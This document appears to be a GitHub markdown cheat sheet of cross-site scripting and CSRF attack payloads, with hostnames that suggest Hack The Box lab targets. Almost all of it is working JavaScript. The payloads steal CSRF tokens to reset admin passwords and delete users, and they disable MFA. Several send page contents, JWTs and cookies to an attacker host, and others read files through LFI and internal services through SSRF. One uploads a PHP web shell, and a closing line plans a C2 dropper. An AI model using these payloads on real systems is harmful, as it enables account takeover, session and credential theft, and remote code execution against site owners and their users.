## 🚀 Advanced XSS + CSRF Attack Payloads for Internal API Discovery and Abuse

When an XSS vulnerability exists, the attacker executes scripts in the victim's browser — effectively hijacking their session. 

This enables:

* Access to authenticated APIs
* Bypassing CSRF protection (by reading tokens)
* Privilege escalation
* LFI / SSRF chaining from restricted endpoints

### 🔧 Core Payload Structure

```html
<script src="https://exploitserver.htb/exploit.js"></script>
```

This injects attacker-controlled JavaScript into the victim's session.

### 📜 Example 1: CSRF Token Harvest + Password Reset

```js
// Fetch CSRF token
var xhr = new XMLHttpRequest();
xhr.open('GET', '/home.php', false);
xhr.withCredentials = true;
xhr.send();
var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var csrftoken = encodeURIComponent(doc.getElementById('csrf_token').value);

// Change password
var changeReq = new XMLHttpRequest();
var body = `username=admin&email=admin@site.htb&password=pwned&csrf_token=${csrftoken}`;
changeReq.open('POST', '/home.php', false);
changeReq.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
changeReq.withCredentials = true;
changeReq.send(body);
```

### 📜 Example 2: Internal Endpoint Discovery + Exfil

```js
var xhr = new XMLHttpRequest();
xhr.open('GET', '/admin.php', false);
xhr.withCredentials = true;
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://attacker.htb:4443/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

### 📜 Example 3: LFI via Reflected Parameter

```js
var xhr = new XMLHttpRequest();
xhr.open('GET', '/admin.php?view=../../../../etc/passwd', false);
xhr.withCredentials = true;
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://attacker.htb:4443/lfi?r=" + btoa(xhr.responseText), false);
exfil.send();
```

### 📜 Example 4: Stealing JWT from LocalStorage / Cookies

```js
// LocalStorage
var token = localStorage.getItem('jwt');
fetch('https://attacker.htb/exfil?jwt=' + encodeURIComponent(token));

// Cookies
fetch('https://attacker.htb/exfil?cookie=' + encodeURIComponent(document.cookie));
```

### 📜 Example 5: Automated Internal Admin Action (delete user)

```js
var csrfXhr = new XMLHttpRequest();
csrfXhr.open('GET', '/admin.php', false);
csrfXhr.withCredentials = true;
csrfXhr.send();

var doc = new DOMParser().parseFromString(csrfXhr.responseText, 'text/html');
var token = doc.querySelector('input[name=csrf_token]').value;

var del = new XMLHttpRequest();
del.open('POST', '/admin/delete_user.php', false);
del.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
del.withCredentials = true;
del.send('user_id=13&csrf_token=' + token);
```

### 📜 Example 6: SSRF via Authenticated Fetch

```js
var internal = new XMLHttpRequest();
internal.open('GET', 'http://127.0.0.1:8080/debug', false);
internal.withCredentials = true;
internal.send();

fetch('https://attacker.htb/exfil?ssrf=' + btoa(internal.responseText));
```

### 📜 Example 7: Upload Web Shell via Admin Panel

```js
var xhr = new XMLHttpRequest();
xhr.open('POST', '/admin/upload.php', false);
xhr.withCredentials = true;
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('filename=shell.php&content=' + encodeURIComponent('<?php system($_GET["cmd"]); ?>'));
```

### 📜 Example 8: Turn Off MFA or Notifications

```js
var getSettings = new XMLHttpRequest();
getSettings.open('GET', '/settings.php', false);
getSettings.withCredentials = true;
getSettings.send();

var doc = new DOMParser().parseFromString(getSettings.responseText, 'text/html');
var token = doc.querySelector('input[name=csrf_token]').value;

var disable = new XMLHttpRequest();
disable.open('POST', '/settings.php', false);
disable.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
disable.withCredentials = true;
disable.send('mfa=off&csrf_token=' + token);
```

### 🧪 Tips for Crafting Payloads

* Always set `withCredentials = true` to send cookies with API requests
* Use `DOMParser` to safely extract CSRF tokens
* Exfil data using Base64 + query param: `btoa(content)`
* Chain with LFI/SSRF/RCE primitives when discovered
* Automate interaction with form fields using `querySelectorAll()`
* Simulate clicks using `element.click()` when direct requests are blocked

### 📚 Resources

* [PayloadAllTheThings XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
* [HackTricks XSS Guide](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
* [PortSwigger DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
* [Advanced XSS Exploitation - LiveOverflow](https://www.youtube.com/watch?v=gV1MxYOBsSo)


##
##

next- test harness, 

browser bookmarklet payloads

C2-ready JavaScript dropper

##
##
